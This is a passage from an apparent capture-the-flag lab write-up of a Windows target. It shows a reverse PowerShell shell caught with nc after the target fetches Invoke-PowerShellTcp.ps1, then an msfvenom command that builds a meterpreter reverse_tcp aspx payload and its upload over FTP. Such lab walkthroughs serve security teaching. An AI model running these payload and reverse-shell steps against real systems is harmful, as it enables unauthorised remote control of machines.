 The webserver gets a request for `Invoke-PowerShellTcp.ps1`:



    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.5 - - [22/Feb/2019 16:28:17] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -



Then `nc` gets a shell:



    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.5.
    Ncat: Connection from 10.10.10.5:49166.
    Windows PowerShell running as user DEVEL$ on DEVEL
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.

    PS C:\windows\system32\inetsrv>



There are pluses and minus to this shell. It's a nice PowerShell
environment, and it's lightweight. However, it's not able to run some
things, for example, the exploit binary that I'll demonstrate below.

#### meterpreter

Rather than use the existing webshell, I'll generate an aspx page that
will return a meterpreter shell when I run it. If you did want to use
the existing webshell, there's a module called
`exploit/multi/script/web_delivery` that will give you a PowerShell
command to run in the shell (make sure you set the right target). Check
if out if you want to play with it.

I'll continue from scratch. First I'll build the payload:



    root@kali# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=443 -f aspx > met_rev_443.aspx
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload    
    [-] No arch selected, selecting arch: x86 from the payload                                
    No encoder or badchars specified, outputting raw payload                                  
    Payload size: 341 bytes                                                                   
    Final size of aspx file: 2838 bytes   



Upload it over ftp:



    ftp> put met_rev_443.aspx
    local: met_rev_443.aspx remote: met_rev_443.aspx
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    226 Transfer complete.
    2874 bytes sent in 0.00 secs (5.3532 MB/s)
